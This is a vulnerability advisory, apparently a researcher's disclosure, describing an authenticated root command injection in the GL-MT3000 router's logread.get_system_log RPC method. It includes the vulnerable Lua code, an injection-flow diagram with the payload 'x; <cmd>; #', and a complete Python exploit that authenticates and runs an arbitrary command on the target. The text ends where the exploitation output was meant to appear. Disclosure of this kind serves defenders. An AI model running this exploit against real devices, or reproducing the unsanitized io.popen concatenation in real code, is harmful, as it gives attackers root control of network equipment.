


Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An authenticated command injection vulnerability exists in the `logread.get_system_log` RPC method of the affected product. The `logread` Lua RPC plugin at `/usr/lib/oui-httpd/rpc/logread` concatenates the user-supplied `module` parameter directly into a shell command string executed via `io.popen()`. The command's stdout is captured and returned in the RPC response, providing the attacker with immediate command output. No validation or sanitization is performed on the `module` parameter, resulting in root command execution.

The reported vulnerable flow is:

```text
Authenticated attacker
  -> POST /rpc {"method":"challenge"} -> salt, nonce
  -> POST /rpc {"method":"login"}     -> sid
  -> POST /rpc {"method":"call","params":["<sid>","logread","get_system_log",
                 {"module":"x; <cmd>; #"}]}
  -> nginx -> oui-rpc.lua -> rpc_method_call()
  -> rpc.call("logread", "get_system_log", {module="x; <cmd>; #"})
  -> dofile("/usr/lib/oui-httpd/rpc/logread")
  -> M.get_system_log({module="x; <cmd>; #"})

  -> cmd = "logread -e " .. module .. " | tail -n " .. lines
  -> io.popen(cmd) -> /bin/sh -c "logread -e x; <cmd>; # | tail -n ..."

  shell parses:
    logread -e x          <- no match / error
    ;                      <- command separator
    <cmd>                  <- RCE (root)
    ;                      <- command separator
    # | tail -n ...        <- commented out
```

The Lua source code at `/usr/lib/oui-httpd/rpc/logread` lines 27-49:



```lua
function M.get_system_log(params)
    local lines = params.lines
    local module = params.module      -- Source: directly from JSON params
    local cmd = "logread"

    if lines and module then
        cmd = "logread -e " .. module .. " | tail -n " .. lines   -- Sink 1
    elseif lines then
        cmd = "logread | tail -n " .. lines
    elseif module then
        cmd = "logread -e " .. module   -- Sink 2
    end

    local log = ""
    local f = io.popen(cmd)            -- /bin/sh -c <cmd>
    if f then
        log = f:read("*a")             -- stdout returned to attacker
        f:close()
    end
    return { log = log }
end
```

The `module` parameter is documented as `@in string ?module` but no content validation is performed. Lua's `..` string concatenation operator directly embeds the attacker-controlled value into the shell command. Since `io.popen()` invokes `/bin/sh -c`, shell metacharacters (`;`, `|`, `$()`, `` ` ``, `#`) are interpreted with root privileges.

The related binaries (`/sbin/logread` standard OpenWrt ubus reader, `/usr/bin/oopslog` crash log reader, `/usr/bin/export_logs` shell script) were audited and contain no additional injection paths. The vulnerability exists purely in the Lua glue layer.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: logread.get_system_log — module parameter command injection via io.popen()"""

import hashlib
import json
import ssl
import subprocess
import sys
import urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"
USER   = sys.argv[3] if len(sys.argv) > 3 else "root"
PASS   = sys.argv[4] if len(sys.argv) > 4 else "12345678Q!"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

def post(path, data):
    req = urllib.request.Request(
        f"{TARGET}{path}",
        data=json.dumps(data).encode(),
        headers={"Content-Type": "application/json"},
        method="POST",
    )
    return json.loads(urllib.request.urlopen(req, timeout=10, context=ctx).read())

# Step 1: challenge
ch = post("/rpc", {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":USER}})
salt  = ch["result"]["salt"]
nonce = ch["result"]["nonce"]

# Step 2: login
crypt = subprocess.check_output(["openssl","passwd","-1","-salt",salt,PASS], text=True).strip()
h = hashlib.md5(f"{USER}:{crypt}:{nonce}".encode()).hexdigest()
sid = post("/rpc", {"jsonrpc":"2.0","id":2,"method":"login","params":{"username":USER,"hash":h}})["result"]["sid"]

# Step 3: inject via get_system_log — output returned directly in result.log
module = f"x; {CMD}; #"
r = post("/rpc", {"jsonrpc":"2.0","id":3,"method":"call","params":[sid,"logread","get_system_log",{"module":module}]})
print(json.dumps(r, indent=2)[:1000])
```

The exploitation is shown below.


